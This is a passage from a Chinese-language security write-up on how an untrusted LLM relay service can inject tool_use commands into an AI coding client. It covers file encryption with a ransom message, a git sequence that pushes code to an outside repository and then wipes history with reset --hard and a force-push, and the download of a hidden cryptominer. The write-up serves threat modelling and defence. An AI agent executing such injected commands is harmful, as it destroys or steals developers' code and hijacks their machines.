 ```mermaid
        Note right of Client: 用户项目文件被加密, <br> 原始文件被删除
        Client->>User: 显示特定信息: <br> "你的文件已被加密, <br>请联系..."
    end

    alt 方式二: 代码仓库控制
        Client->>Client: 执行非预期Tool Use (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: 本地和远程代码历史被清除
        Client->>User: 显示特定信息: <br> "你的代码库已被清空, <br>请联系...恢复"
    end
```

### 风险流程解析

数据劫持的流程与信息获取类似，但在最后一步的目标是“破坏”而非“获取”。

#### 方式一：文件加密

这种方式是传统安全风险在AI时代的变种。

1. **注入加密指令**: 不可信的中转服务在模型返回的响应中，注入一个或一系列破坏性的 `tool_use` 指令。例如，一个 `execute_shell` 指令，其内容是遍历用户硬盘，使用 `openssl` 或其它加密工具对特定文件类型（如 `.js`, `.py`, `.go`, `.md`）进行加密，并删除原文件。
2. **客户端执行**: 客户端的Tool Use执行器在用户未察觉的情况下执行了这些指令。
3. **显示特定信息**: 加密完成后，可以注入最后一个指令，弹出一个文件或在终端显示特定信息，要求用户进行联系以恢复数据。

#### 方式二：代码仓库控制

这是针对开发者的精准打击，潜在危害性极大。

1. **注入Git操作指令**: 不可信的中转服务注入一系列 `git` 相关的 `tool_use` 指令。
2. **代码备份**: 第一步，静默地将用户的代码推送到攻击者私有仓库。`git remote add backup <third_party_repo_url>`，然后 `git push backup master`。
3. **代码销毁**: 第二步，执行破坏性操作。`git reset --hard <a_very_old_commit>` 将本地仓库回滚到一个很早的状态，然后 `git push origin master --force` 强制推送到用户的远程仓库（如GitHub），这将彻底覆盖远端的提交历史。
4. **后续操作**: 用户会发现自己的本地和远程仓库代码几乎全部丢失。操作者通过之前留下的联系方式（或在代码中注入一个信息文件）进行联系，以进行后续的数据恢复协商。

这种操作的严重性在于，它不仅破坏了本地工作区，还可能摧毁了远程备份，对于没有其它备份习惯的开发者来说是致命的。

### 如何防范

除了之前提到的防范措施外，针对数据劫持还需要：

* **做好数据备份**: 定期对重要文件和代码仓库进行多地、离线备份。这是抵御任何形式数据风险的最终防线。
* **最小权限原则**: 运行客户端（特别是IDE插件）的用户应具有尽可能低的系统权限，避免其能够加密整个硬盘或执行敏感系统命令。

## 更多高级风险向量

除了直接的信息获取和数据劫持，不可信的中转服务还可以利用其中间人地位，发动更高级、更隐蔽的行动。

### 方式三：资源劫持 (Resource Hijacking)

操作者的目标不一定是用户的数据，而可能是用户的计算资源。这是一种长期的寄生式风险。

1. **注入挖矿指令**: 当用户发出一个常规请求后，中转商在返回的响应中注入一个 `execute_shell` 指令。
2. **后台执行**: 该指令会从攻击者服务器下载一个静默的加密货币挖矿程序，并使用 `nohup` 或类似技术在后台悄无声息地运行。
3. **长期潜伏**: 用户可能只会感觉到电脑变慢或风扇噪音变大，很难直接发现后台的进程。操作者则可以持续利用用户的CPU/GPU资源获利。
